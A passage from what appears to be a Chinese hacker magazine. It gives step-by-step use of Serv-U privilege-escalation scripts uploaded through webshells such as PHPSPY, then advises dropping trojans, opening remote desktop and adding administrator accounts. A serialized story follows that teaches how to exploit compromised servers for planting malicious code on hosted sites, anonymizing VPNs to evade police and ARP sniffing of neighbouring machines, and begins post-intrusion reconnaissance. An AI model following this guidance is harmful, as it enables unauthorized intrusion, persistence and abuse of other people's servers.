

目前 ASPX 脚本已经比较流行了，而且默认执行权限要比 ASP 高一些，介绍完 ASP 类的提权脚本后，再来看看这款 ASPX 版的提权脚本：Serv-U 2 admin。首先使用 WebShell 将提权脚本上传到一个可以执行 ASPX 文件的目录，然后在 IE 中访问它，便可得到它的运行主界面（图 25）。这款脚本的作者也是第一款 ASP 提权脚本的作者，所以界面上是差不多的，不过功能上不太一样，这款 ASPX 的提权脚本可以自动执行 CMD 命令，简单省事。

在脚本中输入默认管理员帐号和密码、管理端口、想执行的 CMD 命令等信息，点击 “Start” 按钮即可执行，脚本会自动返回执行的结果（图 26）。





当然在 PHP 平台下，提权更是相当的容易，而且最早公布的就是 PHP 版本的 Serv-U 提权脚本。第一款要介绍的 PHP 提权脚本：Serv-U 本地提升权限。首先使用 WebShell 将提权脚本上传到一个可以执行 PHP 文件的目录，然后再在 IE 中访问它，便可得到它的运行主界面（图 27）。



这款提权脚本分为两个功能部分：一个是添加 Serv-U 用户部分，只需要在脚本中输入主机 IP、主机 FTP 端口、主机 FTP 管理端口、主机 FTP 管理用户、主机 FTP 管理密码、添加的用户名、密码、用户主目录等信息，然后点击 “添加” 按钮即可，脚本会自动返回得到的信息（图 28）。

另一个就是执行命令部分（图 29），只需要在脚本中输入主机 FTP 端口、用户名、密码、系统路径、执行命令等信息。然后点击 “执行” 按钮，脚本会自动返回得到的信息（图30）。其中的系统路径是服务器的系统路径，如果为 2000 系统的话一般为：“C:\winnt\system32”，如果为 2003 系统的话一般为：“C:\windows\system32”。



第二款PHP提权脚本是包含在PHPSPY这个WebShell里面的，首先使用WebShell将PHPSPY上传到一个可以执行PHP文件的目录，然后再在IE中访问它，转换到“Serv-U Exp”功能模块，便可以看到它的运行主界面（图31），在脚本中输入“LocalPort（本地端口）”、“LocalUser（默认管理帐号）”、“LocalPass（默认管理密码）”、“Command（想执行的CMD命令）”等信息，然后点击“执行”按钮即可，而且脚本还是会返回得到的信息（图31）。如果最后返回了“200 EXEC command successful（TID=33）”，那么就代表命令已经成功执行了（图32）。









这么多Serv-U 的提权方法已经传授给大家了，不过可不要死用。如果服务器没有开放3389服务，那么就可以添加FTP帐号，然后就可以使用FlashFXP 将木马上传到服务器中，然后再执行这个木马就可以了。也可以上传一个能够开启3389 的工具，在提权的时候加上工具的参要就可以打开服务器的3389服务了，然后再添加Windows系统管理员，登录即可。所以需要大家活学活用，灵活运用，祝大家在长路漫漫的学黑路上，走的更稳更快。

（本文所涉及到的FPPipe端口重定向工具、各种Serv-U提权脚本、Serv-U提权综合工具、海阳2006、ServU已经收录到光盘中）

### 什么是VPN？

VPN 也就是虚拟专用网，被定义为通过一个公用网络（通常是因特网）建立一个临时的、安全的连接，是一条穿过混乱的公用网络的安全、稳定的隧道。虚拟专用网是对企业内部网的扩展。虚拟专用网可以帮助远程用户、公司分支机构、商业伙伴及供应商同公司的内部网建立可信的安全连接，并保证数据的安全传输。通过将数据流转移到低成本的网络上，一个企业的虚拟专用网解决方案将大幅度地减少用户花费在城域网和远程网络连接上的费用。同时，这将简化网络的设计和管理，加速连接新的用户和网站。另外，虚拟专用网还可以保护现有的网络投资。随着用户的商业服务不断发展，企业的虚拟专用网解决方案可以使用户将精力集中到自己的生意上，而不是网络上。虚拟专用网可用于不断增长的移动用户的全球因特网接入，以实现安全连接；可用于实现企业网站之间安全通信的虚拟专用线路，用于经济有效地连接到商业伙伴和用户的安全外联网虚拟专用网。

### 菜鸟师徒行 肉鸡保卫战 (上)

周五杰 (阿布)

话说可爱的燕妹妹回到家中后魂不守舍，整天茶不思饭不想，连燕妹妹也不知道自己到底是怎么了，有时候一个人坐在电视机前傻傻的发呆。“天天下雨真烦人，天天对着这个破电视，也不知道布哥在干啥，那小子不知道又在黑哪个网站了？也不陪我聊聊天。”

就在这时手机滴滴的响了起来，“嗨！真是说曹操曹操到，还算识相。”燕妹妹便和阿布互发着短信聊了起来，当阿布问燕妹妹是否对所学的黑客技术复习的时候，燕妹妹回复短信道：“当然有了呀，没事的时候就翻翻我记录的笔记，看看以前入侵的时候保留的动画，温故而知新嘛。”阿布看到燕妹妹这么用功，于是褒奖一番：“不错，徒弟很乖嘛！多给自己提问题，知识是成倍增长的。”燕妹妹听到这里不禁笑了起来，惹得一旁的老妈惊讶不已。

燕妹妹想起一事不是很清楚，便开始发问起来：“布哥，在你英明的领导下我也入侵了几台服务器，但是使用 3389 成功登陆到服务器后还需要做什么呢？”阿布被突如其来的问题弄得有些不知如何回答，自己想了一会儿才回答道：“这个问题不是很好回答，总的来说可以分为三个部分，第一是先要了解这台服务器，其次要留好后门方便以后控制，其三就是清理好尾巴防止被发觉。”

燕妹妹若有所思道：“哦，似乎是这样哦！可是要从哪些方面来了解这台服务器呢？”阿布眼睛转了一圈回答道：“这个不是一两句话就能说明白的，我给你详细介绍一下吧。”

通过前面几期关于提权操作的讲解，大家肯定拿下了不少服务器吧！提权成功后就获得了服务器的管理员或者系统权限，我们就可以随意执行任何命令了，当然也可以把服务器的终端(3389)服务打开，然后使用远程桌面来连接服务器，输入提权后添加的帐号或者使用管理员帐号便可以登录远程服务器，我们就等于直接坐在了服务器的面前指挥它，跟操作本地计算机是一样一样的。

相信许多小菜也会问和燕妹妹一样的问题：“进入服务器后，我还要做什么呢？”首先，服务器目前已经在你的控制之下了，那就好好的利用服务器的资源吧。如果服务器的硬盘空间特别大，我们就可以用作 FTP 空间，存放黑客工具、教程等资料；如果是一台 WEB 服务器，里面放置了很多的网站，我们就可以用来挂马、刷流量等；如果服务器的网络带宽非常大，而且管理员也不经常来管理维护的话，我们就可以将此服务器制作成一台 VPN 服务器，以后踩点、黑站都可以登录 VPN 后再进行操作，免得被警察叔叔请去喝茶；如果和该服务器同一个网段内有不错的网站或者服务器存在，那么就可以使用 CAIN 等 ARP 嗅探工具入侵同网段内的其它服务器，扩大战果。但如果我们根本就不了解它的话又怎么能够利用它呢？所以我们控制服务器后的第一件事就是仔细了解它的任何信息，包括它的硬件、软件、设置、环境等。下面就听我慢慢来讲解服务器的故事吧！

#### 一、服务器外围信息

所谓服务器外围信息，指的是服务器的网络环境、局域网环境、系统摘要信息等。了解这些信息后我们就可以做到大概的掌握服务器的情况了。

在桌面上选中“网上邻居”点鼠标右键，选择“属性”就进入了管理网络连接的界面（图 1）。



在这儿给出了当前系统所使用的网络连接，它可以是真实的网卡连接，也可以是软件虚拟出来的虚拟网络连接（比如 VMware）。我们可以看到该服务器目前有三个网络连接，其中两个是灰颜色的，代表其目前没有被启用，“本地连接 2”当前是启用的。我们在这儿操作的时候要千万小心，如果大家不是很懂的话，不要更改任何参数，如果造成服务器的网络参数更改而与网络断开连接，那么我们就不能再连接到服务器了，而且这样也会让管理员察觉，为了肉鸡的生命安全，这个地方一般还是只看不动的好。

双击“本地连接 2”进入它的管理界面（图 2），从这里可以知道当前连接持续了多长的时间。这个 16 天一般为开机时间，因为服务器一般是存放在机房中的，一开机网卡便开始工作，并且连入了网络；如果网卡断开的话，服务器也就被网络给隔离了。服务器一般情况下肯定是与网络连通的，所以基本上可以断定为开机的时间。当前连接速度为 100Mbps，指的是当前网络连接的接口连接速度，并不是真正的网络连接速度，真正的网络连接速度要看机房的限制。如果服务器最高实际下载速度为 1M 左右的话；很有可能为 10M 独享带宽，如果最高为 12M 左右的话，很有可能为 100M 独享带宽；至于 100M 共享带宽，这要看服务器所处机柜有多少台服务器了，不过速度最慢的一般都是 100M 共享带宽。界面中还显示了当前网络连接一共发送和接收了多少数据包，大家可以观察它发送的数据包多还是接收的数据包多，如果是发送的数据包多，就可能为 WEB 服务器、下载服务器等，因为数据包一直往外流嘛。



切换到“支持”选项（图3），显示出了当前网络连接的一些参数，包括IP地址、子网掩码、默认网关等信息。但如果此网络连接有多个IP地址的时候就不能很好的显示了，单击“详细信息”即可查看到当前网络连接的全部参数，当然也可以显示出配置的多个IP地址、子网掩码、默认网关等信息，还有此网络连接的MAC地址。如果其中的DNS地址为空的话，服务器就不能解析外部域名，也就是说不能使用任何域名信息连接外部网络。比如不能在服务器上登录你的FTP下载木马、安装的PcShare木马使用了FTP更新或者域名更新不能正常上线等等。

这个管理界面在WIN2003和XP中是相差无几的，不过在WIN2000中就差得很远了。在WIN2000中没有“状态”选项，那么如何查看当前网络连接的参数呢？我们可以点击“属性”进入网络连接的属性界面，得到当前网络连接上所绑定的那些组件，比如TCP/IP协议、网络文件与打印机共享等信息。然后双击TCP/IP协议或者选择TCP/IP协议，然后点击“属性”进入“TCP/IP协议”的属性界面（图4）。这里是设置“TCP/IP协议”参数的地方，在WIN2000中只能这样来查看当前网络连接的参数了，还可以点击“高级”来查看更多的参数，比如查看是否配置有多个IP地址。

